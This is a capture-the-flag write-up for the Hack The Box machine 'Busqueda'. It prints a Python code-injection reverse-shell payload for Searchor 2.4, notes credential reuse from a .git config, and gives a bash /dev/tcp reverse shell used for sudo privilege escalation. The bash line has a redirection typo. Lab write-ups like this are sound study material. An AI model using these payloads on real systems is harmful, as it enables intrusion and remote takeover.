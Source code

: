 # Busqueda

### Reconnaissance

- port 22 SSH OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
- port 80 HTTP Apache httpd 2.4.52

### Exploitation

Searchor v 2.4 has an RCE vulnerability in the query parameter

Start a netcat listener and get a reverse shell with this

`', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#`

Ran linpeas but got thrown by the output, ended up getting help here [from this walkthrough](https://medium.com/@cybrpunk_panda/busqueda-writeup-hack-the-box-2c131b638491)

In the /var/html/app directory there's a .git folder with a config file containing credentials.

The user is cody but the password works for svc giving me ssh access and the ability to run sudo -l

### Privilege Escalation

sudo -l shows the svc user can run a python script in /opt/scripts as root, `/opt/scripts/system-checker.py`. 
By navigating to a writable directory and creating a reverse shell script with the same name as one of the 
options for the python script you can get root access

```
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py

Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

	docker-ps		: List running docker containers
	docker-inspect	: Inpect a certain docker container
	full-checkup	: Run a full system checkup
```

bash reverse shell, full-checkup.sh

`bash -i >$ /dev/tcp/10.10.10.10/4444 0>&1`

Run script with sudo privileges in same folder as bash reverse shell to gain a root shell

`sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup`

